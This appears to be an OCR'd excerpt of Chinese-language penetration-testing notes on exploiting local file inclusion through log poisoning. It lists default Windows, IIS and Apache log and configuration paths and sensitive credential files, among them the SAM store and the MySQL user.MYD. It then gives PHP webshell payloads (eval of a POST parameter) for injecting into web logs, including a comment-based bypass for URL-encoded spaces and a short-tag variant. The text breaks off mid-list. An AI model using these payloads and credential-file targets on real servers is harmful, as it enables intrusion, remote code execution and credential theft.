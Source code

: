 ```
#=============
# window 2003+iis6.0 日志文件默认放在
C:\WINDOWS\system32\Logfiles
配置文件默认在
C:\Windows\system32\inetsrv\metabase.xml

# iis 7日志文件默认在
C:\inetpub\logs\LogFiles
# 配置文件默认目录
C:\Windows\System32\inetsrv\config\applicationHost.config

C:\apache\logs\access.log
C:\Program Files\Apache Group\Apache\logs\access.log
C:\program files\wamp\apache2\logs
C:\wamp\logs
C:\xampp\apache\logs\error.log

C:\apache\logs\error.log
C:\Program Files\Apache Group\Apache\logs\error.log
C:\wamp\apache2\logs
C:\xampp\apache\logs\access.log

# 敏感文件
Windows：
  C:\boot.ini  //查看系统版本
  C:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件
  C:\Windows\repair\sam  //存储系统初次安装的密码
  C:\Program Files\mysql\my.ini  //Mysql配置
  C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
  C:\Windows\php.ini  //php配置信息
  C:\Windows\my.ini  //Mysql配置信息 
```

*   日记包含高级利用

wwoyun--济南大学主站本地文件包含导致代码执行

限制

> 类似 `http://www.exp.com/index<?php eval($_POST[cmd]);?>.php`

这样的提交，某些WEB服务器将会把空格做HTTP编码转成%20写入web日志,如果PHP包含`<?php%20eval($_POST[cmd]);?>`这样的语句肯定是不会成功的，所以我们必须把空格真正的写入WEB日志.

突破

```
<?php/**/eval($_POST[cmd]);/**/?> 
```

*   short\_open\_tag=on

在short\_open\_tag=on的情况下支持`<?/**/eval($_POST[cmd]);/**/?>`这样的短语句

*   WEB服务器一个奇怪的特性
